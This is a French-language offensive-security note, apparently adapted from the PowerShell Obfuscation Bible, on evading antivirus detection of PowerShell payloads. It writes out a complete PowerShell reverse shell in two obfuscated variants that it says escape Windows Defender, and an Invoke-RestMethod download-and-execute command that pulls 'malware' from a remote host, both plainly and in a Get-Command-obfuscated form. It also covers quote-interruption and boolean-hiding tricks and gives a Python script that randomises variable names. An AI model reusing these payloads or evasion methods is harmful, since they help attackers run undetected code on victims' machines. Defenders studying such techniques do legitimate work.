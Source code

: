 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropy__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python [voir scripts](PowerShell_Obfuscation##__Scripts__###Calculate_entropy).

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__

Il est **important de renommer** le nom de **nos variables** en respectant le concept de [Entropie](PowerShell_Obfuscation.md##__Entropy__), cela rend le travail plus difficile pour les antivirus.

Voici un code détecté par les antivirus classique dont windows defender :

![[renameObj1.png]]

En remplaçant le nom des variables ainsi que **`(pwd).Path`** par **`$(gl)`**, on obtient un code que les antivirus ne découvre pas. 

```powershell
$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()
```

On peut également remplacer le nom des variables par x * 'f', ce qui donnerai quelques choses comme :

```powershell
$ffffffffffffffffffffffffffffffff = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $fffffffffffffffffffff = $ffffffffffffffffffffffffffffffff.GetStream(); [byte[]] $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff = 0..65535|%{0}; while(($ffffffffffffffffffffffffffffffffffffffffffffffffffffff = $fffffffffffffffffffff.Read($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff, 0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff.Length)) -ne 0){; $fffff = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff,0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffff); $b396f8bb13ec47c28e4f721085e95361 = (iex $fffff 2>&1 | Out-String ); $fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff= ([text.encoding]::ASCII).GetBytes($fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff); $fffffffffffffffffffff.Write($ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff,0, $ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff.Length);$fffffffffffffffffffff.Flush()}; $ffffffffffffffffffffffffffffffff.Close()
```

Cela donnera une **entropie bien inférieur** à celle précédente et a **probablement de meilleur chance** face au Antivirus.

Pour **modifier automatiquement** le nom des variables [voir scripts](PowerShell_Obfuscation##__Scripts__###Edit_variables_names).


## __Hide_Boolean_Values___

Il est facile de **replacer** **`$True`** ou **`$False`** par des **expressions boolean équivalentes**, voici une liste d'expression qui **renvoit True**, il suffit de rajouter un **!** avant le **\[bool]** pour **renvoyer False** ex: `![bool]1254`.

#### Not 0, null, empty String => True

```
[bool]1254
[bool]0x12AE
[bool][convert]::ToInt32("111011", 2) # Converts a string to int from base 2 (binary)
![bool]$null
![bool]$False
[bool]"Any non empty string"
[bool](-12354893)   # Boolean typecast of a negative number 
[bool](12 + (3 * 6))
[bool](Get-ChildItem -Path Env: | Where-Object {$_.Name -eq "username"})
[bool]@(0x01BE)
[bool][System.Collections.ArrayList]
[bool][System.Collections.CaseInsensitiveComparer]
[bool][System.Collections.Hashtable]
```

#### Any class => True

```
[bool][bool]
[bool][char]
[bool][int] 
[bool][string]
[bool][double]
[bool][short]
[bool][decimal]
[bool][byte]
[bool][timespan]
[bool][datetime]
```

#### Bool expression

```
(9999 -eq 9999)
([math]::Round([math]::PI) -eq (4583 - 4580))
[Math]::E -ne [Math]::PI
```

#### All of this

```
[bool](![bool]$null)
[System.Collections.CaseInsensitiveComparer] -ne [bool][datetime]'2023-01-01'
[bool]$(Get-LocalGroupMember Administrators)
!!!![bool][bool][bool][bool][bool][bool]
```


## __Quote_Interruption__

On peut **placer des guillements** entre les caractères des **cmdlets** de powershell afin d'obfusquer notre payload.
Pour voir la **liste des cmdlets**, on peut effectuer la commande **`get-command`**.

```powershell
i''ex "pwd"
i''e''x "pwd"
i''e''x'' "pwd"
ie''x'' "pwd"
iex'' "pwd"
i""e''x"" "pwd"
ie""x'' "pwd"
```


## __Get-Command__

A la place d'écrire nos cmdlet telle quelle, on peut faire appel à la command **`Get-Command`** ou **`gcm`** pour les appeller.

On peut donc remplacer :

```powershell
Invoke-RestMethod -uri https://192.168.0.66/malware | iex
```

par  :

```powershell
&(Get-Command i************************************************************e-rest*) -uri https://192.168.0.66/malware | &(gcm i*x)
```


## __Remplacer les boucles__

Certaines boucles peuvent être changé par exemple une boucle `while(true){}` peut être remplacé par ces boucles :

```powershell
```

## __Scripts__

### Calculate_entropy

Plus la valeur est proche de 0 moins les caractères sont aléatoire.

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

### Edit_variables_names

Il faut faire attention car ce script n'est pas parfait et peut casser certaines fonctionnalité dans de gros programmes.

```python
#!/bin/python3
#
# This script is an example. It is not perfect and you should use it with caution.
# Source: https://github.com/t3l3machus/PowerShell-Obfuscation-Bible
# Usage: python3 randomize-variables.py <path/to/powershell/script>

import re
from sys import argv
from uuid import uuid4

def get_file_content(path):
	f = open(path, 'r')
	content = f.read()
	f.close()
	return content
	

def main():

	payload = get_file_content(argv[1])
	used_var_names = []

	# Identify variables definitions in script
	variable_definitions = re.findall('\$[a-zA-Z0-9_]*[\ ]{0,}=', payload)
	variable_definitions.sort(key=len)
	variable_definitions.reverse()

	# Replace variable names
	for var in variable_definitions:
		
		var = var.strip("\n \r\t=")

		while True:
			
			new_var_name = uuid4().hex
			
			if (new_var_name in used_var_names) or (re.search(new_var_name, payload)):
				continue
				
			else:
				used_var_names.append(new_var_name)
				break	
						
		payload = payload.replace(var, f'${new_var_name}')
	
	print(payload + '\n')

	
main()
```